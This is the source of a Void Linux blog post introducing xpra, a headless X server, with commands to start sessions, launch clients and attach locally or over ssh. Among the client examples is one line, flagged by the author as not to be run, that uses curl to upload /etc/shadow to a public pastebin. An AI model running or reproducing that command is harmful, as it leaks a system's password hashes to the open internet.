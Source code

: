 ```yaml
---
layout: post
title: "The Advent of Void: Day 12: xpra"
comments: true
---
```


Here's our first tool using a GUI: [xpra(1)](https://man.voidlinux.eu/xpra.1) is
a headless X-Server that allows remotely detaching and attaching its windows 
from multiple platforms including X11, Windows, and Mac.

To use xpra you have to start a new session:

```
# xpra start :14
```

Once xpra has the server running on `:14` you can start clients in the
session:

```
# DISPLAY=:14 xterm &
# DISPLAY=:14 firefox &
# DISPLAY=:14 curl -F sprunge=@/etc/shadow http://sprunge.us &
```

... Actually [don't run the last command](https://twitter.com/Kuwaddo/status/940288213314359296).

To attach the xpra session just use the `attach` command:

```
# xpra attach :14
```

This attaches a local xpra server to the current display. The started X11 should be shown on the screen now.
To detach the session hit `Ctrl`+`C`.

The real power of xpra comes with the remote attaching feature:

```
# xpra attach ssh:remote-server:14
```

This command opens a ssh connections to `remote-server` and attaches
xpra through a secure tunnel. xpra supports multiple encodings, 
including h264, so in contrast to plain X11 over ssh it's incredible fast.

To find out more about xpra, visit the [website](https://xpra.org/).
